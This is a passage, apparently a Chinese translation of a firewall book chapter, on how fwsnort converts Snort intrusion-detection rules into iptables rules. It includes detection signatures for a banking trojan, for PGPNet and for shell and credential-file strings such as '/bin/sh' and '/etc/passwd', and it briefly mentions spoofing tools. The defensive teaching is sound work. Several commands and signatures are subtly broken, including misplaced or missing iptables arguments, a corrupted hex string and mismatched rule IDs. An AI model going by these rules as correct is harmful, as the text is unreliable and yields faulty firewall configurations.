`Bancos Trojan`是一段恶意代码，可以通过伪装成巴西某些银行的界面来窃取密码。（有关更多信息，请参阅下方 `Snort` 规则参考字段中的 `symantec.com` 网页链接。）`Bleeding Snort` 项目开发了该签名，可以在 `fwsnort` 源码的 `bleeding-all.rules` 文件中找到。此签名比之前的 `Nmap` 执行签名更复杂，因为它需要如下所示的两个应用程序内容匹配：

```
alert tcp $EXTERNAL_NET any $HTTP_PORTS -> $HOME_NET any (msg: "BLEEDING-EDGE VIRUS Trojan-Spy.Win32.Bancos Download"; flow: established,from_server; content:"[AspCode]"; content:"\x0f 6d 07 9e 6c 68 00 d2 2f 63 6d 64 94 af 11 af 45 c7 72 ac 5f 113db 03"; classtype: trojan-activity; reference:url, securityresponses.symantec.com/avcenter/venc/data/psteal.Bancos.b.html; sid: 2001726; rev:6; )
```

由 `fwsnort` 生成的等效 `iptables` 命令如下所示。（两个内容匹配以粗体显示。）请注意，在翻译后的规则中，使用了 `iptables --hex-string` 命令行选项，以便 `iptables` 规则在检查网络流量时，能在内核中仅匹配可能的非打印 ASCII 字符：

```bash
IPTABLES -A FWSNORT_FORWARD_ESTAB -p tcp -s port 80 -m string --string "[AspCode]" --algo bm -m string --hex-string "\x0f 6d 07 9e 6c 68 00 d2 2f 63 6d 64 94 af 11 af 45 c7 72 ac 5f 113db 03" --algo bm -m comment --comment "sid: 2001726; msg: BLEEDING-EDGE VIRUS Trojan-Spy.Win32.Bancos Download; classtype: trojan-activity; reference:url,securityresponse.symantec.com/avcenter/venc/data/psteal.Bancos.b.html; rev: 6; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[199] SID2001726 ESTAB "
```

### PGPNet 连接尝试签名

`Snort` 规则中的内容字段可能会非常长，如下面来自 `policy.rules` 文件的 `PGPNet` 连接尝试签名所示：

```
alert udp $EXTERNAL_NET any -> $HOME_NET 500 (msg: "Policy IPSec PGPNet connection attempt"; content:"[00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 10 02 00 00 00 00 00 00 88 0d 00 5c 00 00 00 00 01 00 00 01 00 00 00 01 00 00 00 | [01 00 01 02 00 03 00 04 24 01 00 01 00 80 01 00 66 03 02 00 83 02 00 83 03 00 83 04 00 05 80 00 01 00 01 00 0c 00 04 00 01 00 | 00 80 00 00 02 01 00 00 80 01 00 05 80 02 00 01 80 01 00 03 00 03 80 00 04 02 00 80 04 00 01 00 0c 00 04 00 01 00 | 00 80 00 00 10 "; classtype: protocol-command-decode; sid:1717; rev:1;)
```

长命令行参数对 `iptables` 来说没有问题。这一次我们告诉 `fwsnort` 不要仅仅记录（`LOG`）该数据包，我们还在一个单独的规则中使用 `REJECT` 目标，以防止数据包被传输到协议栈上层，传递给任何监听 UDP 端口 500 的用户空间服务器：

```bash
#IPTABLES -A FWSNORT_FORWARD -p udp --dport 500 -m string --hex-string "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 10 02 00 00 00 00 00 00 00 00 00 88 BD 00 00 5C 00 00 00 00 01 00 00 00 01 00 00 00 01 01 00 02 03 00 00 00 24 01 00 00 80 01 00 06 80 02 00 02 80 03 00 03 80 04 00 05 80 00 01 00 00 00 04 00 00 04 00 01 80 00 00 24 02 01 00 00 80 01 00 05 80 02 00 01 80 03 00 03 80 04 00 02 80 00 01 00 00 24 01 00 00 80 00 04 00 01 80 00 00 00 10" --algo bm --comment "sid:1771; msg: POLICY IPsec PGPNet connection attempt; classtype: protocol-command-decode; rev: 6; Priority: 0;" -j LOG --log-ip-options --log-prefix "[501] BEZ STOP"
#IPTABLES -A FWSNORT_INPUT -p udp --dport 500 -m string --hex-string "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 10 02 00 00 00 00 00 00 00 00 00 88 DD 00 00 5C 00 00 01 00 00 00 01 00 00 00 01 01 00 02 03 00 00 00 24 01 00 00 80 01 00 06 80 02 00 02 80 03 00 03 80 04 00 05 80 00 01 00 00 00 04 00 00 04 00 01 80 00 00 24 02 01 00 00 80 00 05 80 02 00 01 80 03 00 03 80 04 00 02 80 00 01 00 00 24 01 00 00 80 00 00 00 10" --algo bm -j REJECT --reject-with icmp-port-unreachable
```

狡猾的攻击者可能会找到另一种从 Web 服务器提取 `Nmap` 扫描输出的方法，例如让 Web 服务器将其通过电子邮件发送出去，而不是通过 Web 会话返回，但这并不总是可行的。

## fwsnort 对 Snort 规则的解析

既然你已经看到了一些翻译后的 `Snort` 规则示例，现在是时候深入研究翻译细节了。并非所有的 `Snort` 规则都能被翻译，因为正如我们将看到的，`iptables` 提供的功能与 `Snort` 提供的功能之间存在局限性。

基于网络的攻击表现出巨大的多样性。不仅各种软件的新漏洞以令人眩晕的速度被公布，而且 `TCP/IP` 和特定应用程序的 `API` 使得利用这些漏洞通过非显而易见的方式发起攻击成为可能。数据包分片、`TCP` 会话拼接、各种应用程序编码等（如第 2 章至第 4 章所述）使得那些仅仅观察线路上流畅传输的流量的被动监控系统更难检测到攻击。

## 翻译 Snort 规则头

`Snort` 规则分为两个主要部分：规则头（`rule header`）和规则选项（`rule options`）。规则头严格定义了网络层和传输层的匹配标准；在 `Snort` 规则头中不能放置任何应用层匹配标准。

### Snort 规则头

例如，一个指令 `Snort` 匹配所有从任何源地址到 `192.168.10.0/24` 子网内任何 IP 地址的 53 端口的 `TCP` 流量的 `Snort` 规则头如下所示：

```
alert tcp any any -> 192.168.10.0/24 53
```

从签名的角度来看，这个规则头大致等同于以下 `iptables` 命令：

```
[iptablesfw]# iptables -A FORWARD -p tcp -d 192.168.10.0/24 --dport 53 -j LOG
```

首先，`Snort` 在规则头中直接支持 `IP`、`ARP`、`UDP`、`ICMP` 和 `TCP`（并在后台支持其他协议）。其次，`Snort` 规则头的地址部分允许规则应用于特定网络或单个 IP 地址。网络可以使用 `CIDR` 记法（例如 `192.168.10.0/24`）或标准点分十进制记法（例如 `192.168.10.0/255.255.255.0`）来指定。

最后，定义传输层的源端口和目的端口号。可以使用冒号（`:`）字符指定端口范围（例如 `21:23` 将应用于 21 到 23 端口），并且可以使用感叹号（`!`）字符对端口号进行否定（例如 `!80` 将应用于除 80 端口以外的所有端口）。

#### SNORT 规则头通配符和变量解析

`Snort` 规则头中的任何匹配标准（协议除外）都可以设置为通配符值 `any`，这样 `Snort` 就不会将其检查限制在特定的 IP 地址或端口号上。`Snort` 还支持定义变量，其关联的值（如 IP 地址列表或端口号列表）在 `snort.conf` 配置文件中指定。

例如，`Snort` 中许多基于 Web 的规则包含如下规则头：

```
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS
```

在 `snort.conf` 文件中，`$HTTP_SERVERS` 变量的实际定义可能是列表 `[192.168.10.5,192.168.10.6]`。

### 规则动作与 iptables 模拟

规则动作可以是 `alert`、`log`、`pass`、`activate` 或 `dynamic`，尽管 `Snort` 规则通常默认为 `alert`。`alert` 动作是最重要的——它告诉 `Snort` 生成一个事件，然后记录导致该警报的数据包。其余动作提供额外功能，例如在不采取任何操作的情况下放行数据包（`pass`）、记录数据包（`log`），或者设置某些规则使其保持休眠状态，直到某个特定规则被匹配，此时它们变为激活状态并记录流量（`activate` 和 `dynamic`）。

到目前为止，除了 `activate` 和 `dynamic` 动作外，`Snort` 规则头中的所有内容都由 `iptables` 和 `fwsnort` 中的类似功能支持。

源和目的 IP 地址或网络可以通过 `-s IP` 和 `-d IP` 参数分别指定给 `iptables`，同时支持 `CIDR` 和点分十进制网络记法。源和目的端口号可以使用 `--sport port` 和 `--dport port` 选项指定，与 `Snort` 一样，端口范围使用冒号（`:`）字符指定。协议可以使用 `-p protocol` 指定。

例如，要构建一个适用于 `TCP` 流量的 `iptables` 规则，您可以使用 `iptables` 命令的 `-p tcp` 参数。要将规则限制在目的端口 53，您可以使用 `--dport 53`。要将规则应用于 `192.168.10.0/24` 子网中的任何 IP 地址，您可以使用 `-d 192.168.10.0/24`。

### Snort 动作与警报

`Snort` 为生成警报和记录数据包数据提供了几个优秀的选项；幸运的是，`iptables`（结合用于解析 `iptables` 日志消息的额外用户空间代码）可以模拟这些功能的大部分。如第 2 章和第 3 章所述，由 `iptables LOG` 目标生成的日志消息包含网络层和传输层头中几乎所有有趣的字段。在第 4 章中，我们看到 `iptables` 可以使用字符串匹配扩展在应用层数据中搜索可疑活动。通过 `fwsnort`，我们将这些能力结合起来来模拟以下 `Snort` 动作：

**alert**

这是主要的 `Snort` 规则动作，在 `fwsnort` 中，它等同于使用 `iptables LOG` 目标，将 `Snort` 签名的 `msg` 字段记录在日志前缀中，将数据包头信息记录在日志消息的其余部分。在 `iptables` 内部，我们没有记录应用层数据的能力（除非使用 `ULOG` 目标以及 `ulogd` `PCAP` 写入器），但至少攻击是通过 `msg` 字段记录的。

**log**

在 `fwsnort` 中，此动作等同于 `iptables ULOG` 目标，其中使用 `ulogd` `PCAP` 写入器进行更全面的数据包记录。

**pass**

此动作有时在 `Snort` 规则集中用于忽略数据包，在 `fwsnort` 中等同于使用 `iptables ACCEPT` 目标。`ACCEPT` 目标允许匹配的流量通过，而无需 `iptables` 进行任何修改或进一步操作。

`activate` 和 `dynamic` 动作目前尚未被 `fwsnort` 支持，但这并不是因为 `iptables` 的限制；它会显著增加 `iptables` 策略及其构建脚本的复杂度，因为必须为每个动态规则构建一个单独的链。

## 翻译 Snort 规则选项：iptables 数据包记录

`Snort` 复杂的数据包处理主要由规则选项驱动（预处理器执行的工作除外，预处理器拥有专门用于解决特定问题如 `TCP` 流重组或端口扫描检测的代码）。

`Snort` 依赖这些选项来定义什么构成攻击或其他值得向管理员发送警报的活动，可用选项的数量已不断扩展以满足不断变化的漏洞利用环境的需求。

我们将首先讨论 `iptables` 的记录功能与过滤功能，以及一些最重要的 `Snort` 规则选项如何在 `iptables` 中表示。然后我们将讨论那些没有良好的 `iptables` 等效项的 `Snort` 规则选项（例如 `pcre` 和 `asn1` 选项）。这些选项描述了 `Snort` 规则语言中的数据包匹配要求，而这些要求无法在 `iptables` 中表达；缺乏此类功能是 `fwsnort` 无法实现 100% 转换率的原因。

`iptables LOG` 目标允许我们在数据包触发记录规则时生成详细的数据包头信息日志（第 2 章至第 4 章给出了 `iptables` 记录消息的示例）。虽然 `iptables` 可以根据其日志中的大多数重要字段（如源和目的 IP 地址、互联网协议和传输层端口号）来匹配和过滤数据包，但网络层和传输层头中的某些字段不能用作匹配标准。

任何使用此类选项（即被 `iptables` 记录但不能用作匹配标准的选项）的 `Snort` 规则都需要一个用户空间应用程序来解析记录消息，以便检测该规则描述的攻击。因此，对于匹配这些 `Snort` 规则的攻击，`iptables` 自身无法采取任何行动——只有用户空间应用程序在从 `iptables` 日志消息中解析出攻击后才能采取行动。因此，`fwsnort` 不翻译包含以下列表中选项的 `Snort` 规则，因为没有等效的 `iptables` 匹配/过滤选项：

- **ack**: 匹配 `TCP` 头中的 32 位确认号
- **icmp_id**: 匹配某些 `ICMP` 数据包中存在的 ID 值
- **icmp_seq**: 匹配某些 `ICMP` 数据包中存在的序列值
- **id**: 匹配 `IP` 头中的 16 位 `IP ID` 字段
- **sameip**: 搜索相同的源和目的 IP 地址
- **seq**: 匹配 `TCP` 头中的 32 位序列号
- **window**: 匹配 `TCP` 头中的 16 位窗口值

然而，上述列表中的所有数据包头信息都包含在 `iptables` 日志中，以便 `psad` 等应用程序进行轻松分析。

例如，`IP ID`、`ICMP ID` 和 `ICMP` 序列号都包含在由 `ICMP Echo Request` 数据包生成的默认 `iptables` 日志消息中：

```
Jun 9 11:41:42 iptablesfw kernel: IN=eth0 OUT= MAC=00:00:00:00:00:00:00:00:00:00:00:00:08:00 SRC=127.0.0.1 DST=127.0.0.1 LEN=84 TOS=0x00 TTL=64 PREC=0x00 PROTO=0 DF PROTO= ICMP TYPE=8 CODE=0 ID=547 SEQ=1
```

尽管在 `iptables` 内部没有办法在源和目的 IP 地址相同时（对于任意地址）匹配数据包，但 `sameip` `Snort` 规则选项可以通过简单地检查 `iptables` 日志消息中的 `SRC` 和 `DST` 值是否相同来模拟。

此检查必须由用户空间进程执行，并且由于日志消息同时包含源和目的 IP 地址，因此可以轻松看出它们是否相同。

`sameip` 选项对于检测 `LAND` 攻击（参见 http://www.insecure.org/splots/land.ip.dos.html）至关重要。在这种攻击中，攻击者发送一个伪造的 `TCP SYN` 数据包，其目标 IP 地址看起来像是来自目标 IP 地址本身——也就是说，伪造数据包中的源 IP 地址与其目的 IP 地址完全相同。许多旧版本的操作系统（包括 `Windows NT 4.0` 和 `Windows 95`）在处理此类数据包时会直接崩溃，从而使 `LAND` 成为一种针对此类系统的有效拒绝服务（`DoS`）攻击（尽管此类系统已不再广泛部署）。


Snort的`seq`和`ack`选项适用于TCP报头中的序列号和确认号，但当数据包命中内核中的iptables规则时，日志目标默认不包含这些字段；必须向iptables二进制文件提供`--log-tcp-seq`参数才能记录这些报头字段。`window`选项允许Snort匹配TCP窗口大小，且该值默认包含在iptables日志消息中。TCP序列号、确认号以及窗口大小在下方以**粗体**显示：

```
iptables# iptables -I INPUT 1 -i lo -p tcp --dport 5001 -j LOG --log-tcp-sequence
iptables# nc -v localhost 5001
localhost.cipherdyne.org [127.0.0.1] 5001 (?) : Connection refused
iptables# grep SEQ /var/log/messages | tail -n 1
Jun 9 11:49:54 iptablesFW kernel: IN=lo OUT= MAC=00:00:00:00:00:00:00:00:00:00:00:00:08:00 SRC=127.0.0.1 DST=127.0.0.1 LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=2838 DF PROTO=TCP SPT=53827 DPT=5001 SEQ=1048859800 ACK=0 WINDOW=32767 RES=0x00 SYN URGP=0
```

## 注意

上述所有Snort规则选项（如`id`、`seq`和`icode`等）都指示Snort匹配网络层和传输层报头中的特定字段。这些选项均不涉及对任何应用层数据的处理。

## Snort选项与iptables数据包过滤

到目前为止，我们讨论了那些在iptables中仅有日志支持的Snort规则选项。现在，我们将研究iptables同时提供显式匹配和过滤支持的Snort规则选项。使用这些选项的Snort规则可以转换为等效的iptables规则（受本节后面讨论的某些约束限制），并且任何标准的iptables目标（`DROP`、`LOG`、`REJECT`等）都可以应用于匹配的数据包。属于这一类别的Snort规则选项包括：

- `content`
- `uricontent`
- `offset`
- `depth`
- `distance`
- `within`
- `flags`
- `itype`
- `icode`
- `ttl`
- `tos`
- `ipopts`
- `dsize`
- `ip_proto`
- `flow`
- `replace`
- `resp`

### content

Snort规则语言中的`content`选项需要一个以字节序列形式提供的参数（例如`/bin/sh`），Snort使用Boyer-Moore字符串搜索算法在应用层数据中搜索这些字节。iptables的字符串匹配扩展使用了该算法的内核实现（由用户选择），在数据包进入网络栈时，同样在应用层负载中搜索字节序列。

如果在Snort规则的`content`选项中给定字符串`"/bin/sh"`，等效的iptables参数为`-m string --string --algo bm "/bin/sh"`。例如，以下Snort规则用于检测通过UDP端口53向DNS服务器发送的`"/bin/sh"`字符串：

```
alert udp any any -> any 53 (msg: "DNS /bin/sh attempt"; content: "/bin/sh"; sid: 100001);
```

该Snort规则可以通过执行以下命令清晰地转换为等效的iptables规则：

```bash
[iptablesfw]# iptables -A FORWARD -p udp --dport 53 -m string --string "/bin/sh" --algo bm -j LOG --log-prefix "SID100001"
```

### uricontent

`uricontent` Snort选项使Snort能够处理通过HTTP传输的URL编码应用数据。由于Web应用程序通信的重要性日益增加，以及随后检测针对这些应用程序的攻击的需求，该选项被直接集成到Snort规则语言中（而不是仅在预处理器中实现）。针对支持URL编码数据的Web服务器的攻击可以在编码方案的约束内采取任何形式，其结果是，攻击在传输过程中表现出一定的可变性，如果没有一种方法来规范化数据，则很难对其进行解码。例如，字符串`"/bin/sh"`及其URL编码等效值`"%2f%62%69%6e%2f%73%68"`在Web服务器解码过程后完全相同，但在传输过程中这些原始字节序列看起来完全不同。严格来说，iptables中没有`uri:content` Snort选项的直接翻译，因为字符串匹配扩展无法直接解码URL编码数据。

## 正则表达式与iptables

此前曾向iptables项目维护者建议在iptables中添加一些有限的正则表达式支持（删除反向引用和重复操作等功能）。然而，在内核中实现一个通用的正则表达式引擎（例如非确定有限状态自动机或NFA，类似于Perl、Python、GNU Emacs、vi和grep等各种语言、实用程序和编辑器中所使用的）是一个冒险的方案。有时可以构造一些病态数据，使得特定正则表达式在该数据上的运行时间可能长达数千年。我们不希望攻击者仅通过向系统接口发送一个恶意构造的数据包就能轻易地导致整个内核崩溃！

虽然fwsnort可以将编码字符串`"%2f%62%69%6e%2f%73%68"`包含在一条单独的规则中，但攻击者只需混合编码即可绕过这一点——例如，攻击者可以发送`"/bin%2f%73%68"`。对于一个长度为`n`个字符的字符串，可能的编码数量随着`n`的增加而迅速增加。

然而，与此同时，攻击者并没有必须对攻击进行URL编码的要求，而且在HTTP流中看到`"/bin/sh"`字符串就是可疑的——无论它是否被编码。此外，某些自动化攻击可能不具备更改针对Web服务器发送的漏洞利用部分编码的能力，因此只需要一个字符串即可检测到攻击。因此，fwsnort将`content`和`uri:content` Snort选项等同对待，尽管这显然是以可能错过URL编码攻击为代价的。

### offset

`offset` Snort选项指示Snort从数据包负载数据起始点之后指定数量的字节开始进行应用内容匹配操作。这是一个绝对数值，适用于Snort规则中的所有内容匹配，不受多个内容匹配之间相对字节数的影响（为此使用`distance` Snort选项）。iptables通过在查找负载数据模式时向字符串匹配扩展提供`--from`命令行参数来支持`offset`选项（这仅在内核版本2.6.14及更高版本中支持）。以下示例构建了一个iptables规则，用于丢弃所有目标端口为80且在第100个字节之后任何位置包含字符串`"/etc/passwd"`的TCP数据包：

```
[iptablesfw]# iptables -A INPUT -p tcp --dport 80 -m string --string "/etc/passwd" --from 100 --algo bm -j DROP
```

### depth

`depth` Snort选项要求在数据包负载数据中所有尝试匹配内容的操作不得超过负载起始点之后指定数量的字节。与上述`offset`选项一样，在Snort规则中使用`depth`标准全局适用于所有内容匹配。若要搜索间距不超过给定字节数的模式，应使用`within` Snort规则选项。对于内核版本2.6.14及更高版本，使用字符串匹配扩展的`--to`命令行参数在iptables中模拟`depth`选项。

以下示例演示了`--to`命令行参数的用法，使iptables丢弃所有目标端口为80且在数据包负载中第1000个字节之前任何位置包含字符串`"/etc/passwd"`的TCP数据包：

```
[iptablesfw]# iptables -A INPUT -p tcp --dport 80 -m string --string "/etc/passwd" --to 1000 --algo bm -j DROP
```

### distance

`distance`选项被Snort用于指定模式匹配之间需要跳过的字节数。没有直接的方法告诉字符串匹配扩展从上一个模式匹配跳过多少字节，但fwsnort根据上一个模式匹配的长度和任何偏移修饰符进行近似处理。要禁用包含`distance`关键字的Snort规则的翻译，可以在fwsnort命令行中使用`--strict`选项。

### within

`within`选项指示Snort要求在初始匹配之后，随后的模式匹配必须在指定数量的字节内发生。这与`distance`选项类似，fwsnort通过基于前一个模式长度进行近似处理来支持此功能（fwsnort命令行上的`--strict`可禁用此行为）。

### flags

`flags` Snort选项对TCP报头中的控制位应用搜索标准。控制位根据TCP连接的状态而变化，iptables可以通过`--tcp-flags`参数匹配特定的组合。例如，检测Nmap OS指纹识别尝试的Snort规则使用`flags`选项在TCP报头中搜索`Syn`、`Fin`、`Push`和`Urg`标志。等效的iptables二进制参数为`-p tcp --tcp-flags SYN,FIN,PSH,URG SYN,FIN,PSH,URG`。`--tcp-flags`命令行开关需要两个参数：首先是应检查的标志列表，然后是必须实际被设置的标志列表。这使得第一个参数

用于作为必须检查的已设置标志位的掩码。

使用`--tcp-flags`选项不需要特殊的内核配置选项，因为它是内置在iptables核心TCP处理代码中的。以下示例展示了一条iptables规则，用于检测TCP数据包是否同时设置了`SYN`和`FIN`标志：

```
[iptablesfw]# iptables -A INPUT -p tcp --tcp-flags ALL,SYN,FIN -j LOG --log-prefix "SCAN SYN FIN "
```

### itype和icode

`itype`和`icode`选项分别用于匹配ICMP报头中8位ICMP类型（type）和代码（code）字段中的指定数值。例如，要在Snort规则中测试ICMP分片需要（fragmentation-needed）数据包，我们会使用选项`itype: 3; icode: 4;`。映射到各种ICMP类型和代码的具体数值定义在RFC 792中（请参阅http://www.faqs.org/rfcs/rfc792.html）。

iptables的ICMP处理代码支持通过参数`-p icmp --icmp-type type/code`对ICMP报头中的类型和代码字段进行匹配，其中`type/code`是完整的ICMP消息类型名称（例如`source-quench`）或其等效的数值。可以通过执行`# iptables -p icmp -h`获取iptables支持的所有ICMP消息类型的完整列表（该输出非常长，因此此处不予列出），其对应的数值可以在iptables源码的`extensions/libipt_icmp.c`文件中的`icmp_codes[]`数组中找到。

Snort的`itype`和`icode`选项都支持通过使用`<`和`>`运算符来匹配ICMP类型和代码的范围。例如，要匹配所有类型大于10且代码小于30的ICMP消息，可以在Snort规则中使用`itype: >10; icode: <30;`。不幸的是，iptables的ICMP匹配不支持ICMP类型或代码字段的范围概念，但需要注意的是，没有默认的Snort规则使用`itype`范围，且使用`icode`范围的规则不足1%。

以下示例iptables规则丢弃所有ICMP源猝灭（source-quench）消息：

```
[iptablesfw]# iptables -A INPUT -p icmp --icmp-type 4/0 -j DROP
```

### ttl

`ttl`选项允许Snort匹配IP报头中的生存时间（TTL）值。`ttl`选项非常灵活，允许将TTL报头值与指定的整数值进行比较，支持的比较操作包括*小于*、*等于*或*大于*。

例如，要匹配IP报头中恰好为30的TTL值，应给定Snort规则选项`ttl:30;`。若仅在TTL值小于30时匹配，则`ttl:<30;`即可；最后，若仅在TTL值大于30时匹配，则包含`ttl:>30;`。这些操作在iptables中通过TTL匹配及其参数`-m ttl --ttl-lt value`、`-m ttl --ttl-eq value`和`-m ttl --ttl-gt value`来实现，如iptables帮助输出所示：

```
[iptablesfw]# iptables -m ttl -h
TTL match v1.3.7 options:
--ttl-eq value          Match Time-to-Live value
--ttl-lt value          Match TTL < value
--ttl-gt value          Match TTL > value
```

仅当内核配置文件中启用了`CONFIG_IP_NF_MATCH_TTL`时，iptables的TTL匹配才可用。检测并记录所有TTL值为零的IP数据包的iptables规则示例构建如下：

```
[iptablesfw]# iptables -A INPUT -p ip -m ttl --ttl-eq 0 -j LOG --log-prefix "ZERO TTL TRAFFIC "
```

## tos

`tos`选项指示Snort检查IP报头中的服务类型（TOS）位。该选项在Snort中相对简单，因为它只能接受数值，并可选地使用`!`进行取反。此选项由iptables TOS匹配通过参数`-m tos --tos value`支持。TOS匹配同样支持取反，如帮助输出所示：

```
[iptablesfw]# iptables -m tos -h
TOS match v1.3.7 options:
[!] --tos value          Match Type of Service field from one of the
                          following numeric or descriptive values:
                          Minimize-Delay 16 (0x10)
                          Maximize-Throughput 8 (0x08)
                          Maximize-Reliability 4 (0x04)
                          Minimize-Cost 2 (0x02)
                          Normal-Service 0 (0x00)
```

下面的示例命令记录所有TOS值为16（最小延迟Minimize-Delay）的IP数据包：

```
[iptablesfw]# iptables -A INPUT -p ip -m tos --tos 16 -j LOG --log-prefix "MIN-DELAY TOS "
```

## ipopts

`ipopts` Snort选项允许将搜索标准应用于IP报头的选项部分。虽然IP选项在合法的IP流量中很少使用，但检测使用源路由IP选项的企图（攻击者可能会尝试利用此功能将数据包路由到原本不可达的网络）非常重要。Snort支持对IP选项报头字段进行多项测试，这些测试无法在iptables中模拟。不过，针对路由选项源字段的重要测试可以通过patch-o-matic提供的iptables`ipv4options`匹配来实现。

例如，要测试松散源路由（Loose Source Route）选项，可向iptables提供参数`-m ipv4options --lsrr`。要检测严格源路由（Strict Source Route）选项，可以使用`-m ipv4options --ssrr`。要检测可用于辅助网络映射的记录路由（Record Route）选项，可以使用`-m ipv4options --rr`（请参阅下面的完整iptables命令示例）。`ipv4options`匹配要求内核配置文件中启用`CONFIG_IP_NF_MATCH_IPV4OPTIONS`。

```
[iptablesfw]# iptables -A INPUT -p ip -m ipv4options --rr -j LOG --log-prefix "RECORD ROUTE IP OPTION "
```

## dsize


`dsize` Snort 选项对数据包载荷（payload）数据的大小提出了要求。它接受一个正整数以及可选的 `<` 或 `>` 运算符，以表示数据包的应用层部分必须存在的字节数，从而使规则匹配。例如，要要求数据包包含至少 500 字节的载荷数据，可以在 Snort 规则中使用 `dsize: >500;`。`dsize` 选项还支持使用 `< >` 运算符定义范围的上下界，例如：`dsize: 400;<500;`。不幸的是，iptables 没有直接仅指定载荷长度的机制。

然而，iptables 的长度匹配（length match）可以通过允许计算数据包的总长度（包括网络报头、传输报头和应用载荷的合并长度）来进行相当合理的近似。鉴于 IP 报头几乎总是 20 字节长（通常不包含 IP 选项），正确构建的 UDP 报头以及 ICMP 回显请求和响应报头总是 8 字节长，并且（平均而言）TCP 报头长度的良好近似值约为 30 字节（静态字段 20 字节，选项约 10 字节），我们拥有一个很好的启发式方法将 Snort 的 `dsize` 选项映射到 iptables 规则集中。

例如，如果一条针对 TCP 的 Snort 规则包含选项 `dsize: 200`，那么对于 iptables 长度匹配，我们将指定长度为 $20 + 30 + 200 = 250$ 字节。iptables 的长度匹配接口为 `-m length --length bytes`，与 Snort 类似，iptables 长度匹配也支持字节范围：`-m length --length low:high`。长度匹配要求内核配置文件中启用 `CONFIG_IP_NF_MATCH_LENGTH`。然而，即使长度匹配不可用，IP 报头长度也会包含在 iptables 日志消息中，因此像 psad 这样的外部应用程序可以对记录的数据包应用相同的逻辑，以判断数据包长度。当然，在日志分析场景中，数据包长度不能作为过滤标准。

## 注意

IP 和 TCP 报头的平均长度在 fwsnort 中可通过 `/etc/fwsnort/fwsnort.conf` 中的 `AVG_IP_HEADER_LEN` 和 `AVG_TCP_HEADER_LEN` 关键字进行配置。

以下示例 iptables 命令构建了一条规则，用于记录任何包含 $1028 - 20 - 8 = 1000$ 字节应用层数据的 ICMP 数据包（假设未设置 IP 选项——这在大多数情况下是安全假设）：

```
[iptablesfw]# iptables -A INPUT -p icmp -m length --length 1028 -j LOG --log-prefix "LARGE ICMP MESSAGE "
```

## ip_proto

`ip_proto` Snort 选项允许将 Snort 规则限制在 IP 报头中协议字段的 256 个可能值中的任何一个；这些值定义在 `/etc/protocols` 文件中。这并不一定意味着 Snort 具有对任意互联网协议（例如 IP 119 (SRP, SpectralLink Radio Protocol) 或 IP 132 (SCTP, Stream Control Transmission Protocol)）的特殊解码能力；它仅仅意味着对于匹配该 IP 编号的数据包，Snort 可以对传递 IP 报头后的载荷数据应用检查。Snort 的 `ip_proto` 选项在 iptables 中通过 `-p protocol` 参数支持，与 Snort 类似，iptables 接受协议数值或在 `/etc/protocols` 中列出的完整协议名称。

与许多其他 Snort 选项一样，`ip_proto` 允许通过 `!`, `<`, 和 `>` 运算符进行取反和范围匹配。此外，Snort 支持在同一条规则中定义多个 `ip_proto` 选项（例如 `ip_proto: 11; ip_proto: 12;`）。iptables 同样支持使用 `!` 运算符进行协议取反，但不支持协议范围以及在单条规则中使用多个协议。参考资料，所有当前分配的 IP 编号完整列表可从 http://www.iana.org/assignments/protocol-numbers 获取。

下面是一个示例命令，旨在让 iptables 记录所有通过 IP 47 传输的通用路由封装（GRE）数据包：

```
[iptablesfw]# iptables -A INPUT -p 47 -j LOG --log-prefix "GRE PACKET "
```

## flow

`flow` Snort 选项是 Snort 规则语言中最重要的特性之一，并与流预处理器（stream preprocessor）结合使用。`flow` 选项使 Snort 规则能够对重组后的 TCP 流应用状态和方向标准。

例如，若要求某条规则仅适用于源自 TCP 连接客户端侧的数据，且仅在 TCP 三路握手完成后（即连接处于 "established" 状态）才适用，我们可以使用选项 `flow: from_client,established`。流预处理器仅适用于 TCP 流量（尽管 stream5 同样对 UDP 和 ICMP 提供了基于超时的支持）。

在 Snort 规则引入 stream 预处理器及其 `flow` 关键字接口之前，攻击者可以使用任意源 IP 地址伪造看似恶意的 TCP 数据包，即使并没有合法的 TCP 会话，也能导致 Snort 产生告警。Snort 通过检查 TCP 标头中的标志位来查看确认（ACK）位是否被设置，但这种能力很容易被绕过——只需在伪造的数据包中手动设置 ACK 位即可。Stick 和 Snort 是最早创建这类针对 Snort 的“无状态”攻击的程序。来自 fwsnort 项目的类似 Perl 实现 `snortspoof.pl` 使用了 hping 工具（参见 http://www.hping.org）在网络上传输伪造的 Snort 内容字段（参见附录 A）。攻击者可以使用这些工具，使之看起来像是某个完全无关的 IP 地址正在通过网络发起一次高度针对性的攻击。此类攻击旨在将管理员的注意力从源自攻击者真实 IP 地址的、看似无害且微小的攻击中转移开。

通过跟踪 TCP 连接及其相应的状态，`stream` 预处理器提供了一种有效的机制来挫败此类无状态攻击。一个 TCP 连接若要达到已建立（established）状态，必须完成标准的 TCP 三次握手，这反过来意味着数据包必须在两个方向上发送。伪造的 TCP ACK 数据包永远不能被视为合法 TCP 连接的一部分，除非该伪造数据包恰好具有目标与伪造 IP 地址之间现有连接的相同源端口、目的端口以及合理的序列号和确认号。除非攻击者已经能够监控进出网络的 TCP 连接，否则这种情况极不可能发生；而具有这种访问权限的人通常对在已建立的会话中伪造数据包不感兴趣，他们会追求更有成效的目标，例如直接攻破更多系统。目前，近 90% 的 Snort 规则利用 `flow` 选项对处于已建立状态的 TCP 连接进行应用层检查。

通过使用连接跟踪设施，iptables 成为一个有状态防火墙，因此它不仅为 TCP 连接，还为 UDP 和 ICMP 等无连接协议（通过使用超时机制）提供了连接跟踪机制。虽然 iptables 没有提供一种方法来将数据包匹配标准限制在独立于网络层源和目的 IP 地址的 TCP 连接流量方向上（即 Snort 术语中的 `to_server` 或 `to_client`），但它确实允许规则匹配已建立的 TCP 连接。就入侵检测而言，这迄今为止是最重要的功能，因为与 stream 预处理器一样，攻击者无法欺骗 iptables 对看似恶意的伪造 TCP ACK 数据包采取行动。要指示 iptables 匹配已建立的 TCP 连接，我们可以使用以下命令行参数：`-p tcp -m state --state ESTABLISHED`。状态匹配也可以应用于 TCP 连接的其他阶段，例如 `NEW`（匹配 TCP SYN 数据包）和 `INVALID`（匹配无法被归类为属于现有连接的数据包）：

```
[iptablesfw]# iptables -m state -state -h
state v1.3.7 options:
